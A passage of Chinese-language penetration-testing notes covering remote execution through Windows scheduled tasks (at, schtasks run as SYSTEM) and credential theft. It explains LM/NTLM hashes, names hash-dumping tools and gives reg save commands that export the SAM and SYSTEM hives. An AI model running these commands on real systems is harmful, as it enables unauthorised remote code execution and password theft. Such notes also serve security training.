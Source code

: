 ```powershell
net time \\<目标IP>  # 查看远程机器的时间
copy calc.bat \\<目标IP>\盘符  # 上传到对应IP的盘符下
at \\<目标IP> <12进制时间> <路径> # 创建计划任务，在指定时间执行脚本
at \\<目标IP> <任务号> /delete
```

### schtasks命令

```powershell
# 在远程主机上创建一个名为test的计划任务。该计划任务在开机时启动，启动程序魏calc.bat,启动权限为system
schtasks /create /s <IP> /tn test /sc onstart /tr c:\calc.bat /ru system /f
/u 用户名
/p 密码
/f 强制删除

# 删除计划任务
schtasks /delete /s <IP> /tn "<name>" /f
# 删除IPC$
net user <IP> /del /y
```

# 系统散列值获取

## LM Hash和NTLM Hash

在域环境中，用户信息存储在`ntds.dit`中，加密后为散列值。Windows操作系统中的密码一般有两部分组成，一部分是`LM Hash`，另一部分是`NTLM Hash`。在Windows操作系统中，Hash的结构通常如下：

- `username:RID:LM-HASH:NT-HASH`

LM Hash的全名是`LAN Manager Hash`，为了保证兼容性Windows只是将其禁用（在WIndows Server 2008以后）。LM Hash明文密码被限定在14位以内，也就是说，如果停止使用LM Hash，将用户的密码设置为14位以上即可。如果`LM Hash`被禁用了，攻击者通过工具抓取的`LM Hash`通常为`aad3b435b51404eeaad3b435b51404ee`（表示LM Hash为空值或者被禁用）

在Windows2003以后，wind我是操作系统的认证方式均为NTML Hash

## 单机密码抓取与防范

要想在Windows操作系统中抓取散列值或者明文密码，必须将权限提升至`System`。本地用户名，散列值和其他安全验证信息都保存在SAM文件中（C:\Windows\System32\config）。`lsass.exe`进程用于实现Windows安全策略（本地安全策略和登录策略）。可以使用工具将散列值和明文密码从内存中的`lsass.exe`进程或者SAM文件中导出

**工具：**

- `GetPass`
- `PwDump7`
- `QuarksPwDump`

### 通过SAM和System文件抓取密码

```powershell
# 无工具导出SAM文件
reg save hklm\sam sam.hive
reg save hklm\system system.hive
```
